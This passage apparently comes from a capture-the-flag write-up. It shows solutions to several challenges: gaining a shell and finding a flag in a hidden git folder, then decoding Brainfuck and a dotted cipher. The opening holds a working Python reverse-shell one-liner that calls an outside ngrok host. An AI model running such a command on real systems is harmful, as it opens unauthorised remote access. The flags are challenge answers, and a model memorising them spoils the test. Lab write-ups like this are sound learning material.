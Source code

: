```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("2.tcp.ngrok.io",19733));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image](https://user-images.githubusercontent.com/69868171/131176054-c5937f39-a476-4c4a-9816-49424b0c766c.png)

Checking our Ncat listener and we have shell.

![image](https://user-images.githubusercontent.com/69868171/131176308-3bb2397a-1fa7-4f7e-bbd4-84e5e90fb2d5.png)

Now hunting for the last flag i check the root folder i got nothing.

![image](https://user-images.githubusercontent.com/69868171/131177583-45824d3a-c5d5-4ad5-a97d-464baf1c5d68.png)

But seems we have a hidden git folder running let check it out.

![image](https://user-images.githubusercontent.com/69868171/131177753-f11471b6-6c72-4fb7-8618-1fb329288b7d.png)

Going through some commit and we have some leads and we have the last flag hahahaaha fun right?? 

![image](https://user-images.githubusercontent.com/69868171/131177870-4e7407e6-3f42-4b93-bcda-f6101a874ac9.png)


Final Flag:- `abcctf{remember_YoUr_s3cret_!s_safe_with_us}`

All clear man i have fun let hit it.

###  Pinky and The mouse - 100 point 

![image](https://user-images.githubusercontent.com/69868171/131212342-9e0e221e-5746-4991-897e-1f661c1f3a19.png)

Let download the head.txt file.

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>---.+.+..+++++++++++++++++.--------------.+++++++++++++++++++++.<+++++++++++++.>------------------.++++.+++.----.<++++++.++++++.-----------------------------.>++++++.<--.>---------.+++++.---------------------.++++++++++++++++++++++++++++++++++++.
```

Definitely a Brainf*ck Code let hit it.

![image](https://user-images.githubusercontent.com/69868171/131212431-f490f295-9657-42b8-b706-b9b548e61d37.png)

Final Flag:- `abcctf{SimplY_Br@inY}`

###  Gentle Reminder  - 250 point 

![image](https://user-images.githubusercontent.com/69868171/131212522-d8de2d66-8648-4ab5-a19f-f477446f8140.png)

Never put sensitive things in your purse man let just download it.

```
011^0000^1011^011^00^0100^0100^1011^111^001^1000^0^0100^111^111^101^00^10^110^0010^111^010^011^0000^01^1^00^000^10^111^1^11^00^000^000^00^10^110^0^11^111^000^00011^011^01^1011^0100^0110^11^00^000^0^000^010^11111^11^0010^1^1010^1010^1000^01^01^11^111^10^110^11^00^000^000^00^10^110^1^0000^00^10^110^000^111^010^100^111^1011^111^001^10^111^1^101^10^111^011^1^0000^01^1^00^1^011^00^0100^0100^0100^0^01^100^1^111^1011^111^001^0100^111^111^101^00^10^110^1^111^111^100^0^0^0110^0100^1011^01^10^100^011^00^100^0^0100^1011^0010^111^010^011^0000^01^1^000^0000^111^001^0100^100^10^111^1^1000^0^000^111^001^110^0000^1^0010^111^010^00^10^1^0000^0^0100^01^10^100^111^0010^1^0000^0^110^01^11^0
```
